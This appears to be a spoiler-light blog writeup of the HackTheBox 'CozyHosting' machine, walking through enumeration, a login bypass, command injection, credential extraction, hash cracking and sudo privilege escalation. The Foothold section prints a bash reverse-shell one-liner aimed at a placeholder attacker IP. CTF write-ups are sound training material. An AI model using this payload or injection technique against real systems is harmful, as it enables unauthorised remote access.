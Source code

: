 ```yaml
---
layout: post
title: "HTB - CozyHosting Writeup"
categories: writeup
tags: linux ctf
---
```


This writeup is meant to give an overview of the challenge's solution without spoiling too much of the key details so you can still have fun while following it !

# 1. Initial enumeration
First and foremost, as usual for any challenge we can run a simple port scan using nmap:
![](/assets/writeups/CozyHosting/Selection_063.png)

From this we can already see that the target hosts an HTTP server as well as an SSH server, which probably means that our entry point will probably be found in our browser visiting the site related to this IP; and the SSH server might be useful later once we find a login for it.

Visiting the ip from our browser redirects us to a website (dont forget to add this host in your /etc/hosts file):
![](/assets/writeups/CozyHosting/Selection_064.png)

We can quickly see that most links are pointing at the main page, except for the login page:
![](/assets/writeups/CozyHosting/Selection_065.png)

However after testing this page for SQL injections (manually or using a tool like sqlmap), this page doesn't seem vulnerable. We can thus continue our enumeration with some dir busting using gobuster:
![](/assets/writeups/CozyHosting/Selection_066.png)

This gives us a list of pages to visit, one of which seems to hold valuable information:
![](/assets/writeups/CozyHosting/Selection_046.png)

This can be used to bypass the login and access to the admin panel:
![](/assets/writeups/CozyHosting/Selection_045.png)

# 2. Foothold
We gained a first access on the site, we now need a way to execute arbitrary commands on the host.
On the adnmin page we can a function to patch hosts:
![](/assets/writeups/CozyHosting/Selection_067.png)

We can put arbitrary values in both field and then intercept the request with Burp to tinker with it in Repeater. The idea is to find some inputs that would lead to a reverse shell. A payload like this one:
```bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
should be transformed in a way that will be executed by the request on the server. Using brackets, pipe and a proper encoding you should be able to get a reverse shell from this request!
![](/assets/writeups/CozyHosting/Selection_050.png)

However, at this point we are yet to access a user account, we can only see a home for a user named 'josh'.
A jar file is also present in /app, this file should be downloaded on our machine and extracted to inspect its content and find useful information.

![](/assets/writeups/CozyHosting/Selection_051.png)

The file application.properties contains credentials for a postegres database so we now need a way to access it as it might be our avenue to compromise a user account.

# 3. Gaining access
We now have all the information required to connect to the database:
![](/assets/writeups/CozyHosting/Selection_071.png)

the user table contains two users with a password hash for each of them. Using John the ripper or Hashcat we can easily crack the admin password which is in the rockyou list.
![](/assets/writeups/CozyHosting/Selection_059.png)

We can then use this password as well as the username retrieved earlier to connect to our target using SSH. This gives us access to our user flag !

# 4. Privilege escalation
Privilege escalation on this machine relies on a very common method, often found in easy challenges. Using 'sudo -l' you should have enough information to find which command can be exploited to get root access and open the flag in the /root directory ! (This site can help you find what you are looking for: https://gtfobins.github.io !)

Congratulations !